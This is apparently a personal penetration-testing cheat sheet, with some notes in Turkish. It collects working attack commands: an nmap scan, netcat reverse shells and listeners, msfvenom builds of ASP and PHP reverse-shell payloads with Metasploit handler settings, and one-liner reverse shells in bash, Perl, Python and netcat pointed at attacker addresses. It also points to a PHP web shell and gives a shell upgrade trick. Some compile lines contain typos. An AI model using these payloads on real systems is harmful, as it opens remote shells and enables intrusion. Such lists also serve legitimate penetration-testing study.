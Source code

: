 # Useful command

## Scan

```
nmap -A -Pn -n --top-ports 10000 -vvv -oN 192.168.27.68
```


## Get Shell & Listen:

### get shell

```
nc 192.168.56.1 4444 -e /bin/sh
```

the -e flag was not supported on the server’s implementation of netcat.:

```
mknod /tmp/backpipe p 
/bin/sh 0</tmp/backpipe | nc 192.168.56.1 4444 1>/tmp/backpipe
```

### listen:
```
nc -nvlp 4444
```

***

## Exploitation

### Unstage & Stage Shell

Unstage Shell: (karşılaması nc -nvlp)
```
msfvenom -p windows/shell_reverse_tcp LHOST=10.11.0.52 LPORT=443 -f asp > aspunstage-52.aspx
```
Stage Shell: (karşılaması msfconsole handler)
```
msfvenom -p windows/shell/reverse_tcp LHOST=10.11.0.52 LPORT=443 -f asp > aspstage_52.aspx
```

### Shell example

#### Reverse Shell Cheat Sheat

PHP Reverse Shell
```
msfvenom -p php/reverse_php LHOST=10.10.10.10 LPORT=4444 -e php/base64 -f raw > shell.php
```
Karşılaması

```
msf> use exploit/multi/handler
set payload php/reverse_php
set lhost 10.10.10.10
exploit
```

##### BASH

bash -i >& /dev/tcp/10.0.0.1/8080 0>&1

##### PERL

perl -e 'use Socket;$i="10.0.0.1";$p=1234;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'

##### PYTHON

python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.0.0.1",1234));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'

##### NETCAT

nc -e /bin/sh 10.0.0.1 1234

##### PHP PentestMonkey

http://pentestmonkey.net/tools/web-shells/php-reverse-shell
```
$ip = '127.0.0.1';  // CHANGE THIS
$port = 1234;       // CHANGE THIS
```

###### Upgrade Shell TTY

python -c 'import pty; pty.spawn("/bin/bash")'  

***

## PRIVILAGE ESCALATION

### C Compile

linux:
gcc -o hello hello.c

windows 32 bit:
i686-w64-mingw32-gcc -o hello.exe hello.cT

windows 64 bit:
x86_64-w64-mingw32 -o hello.exe hello.c
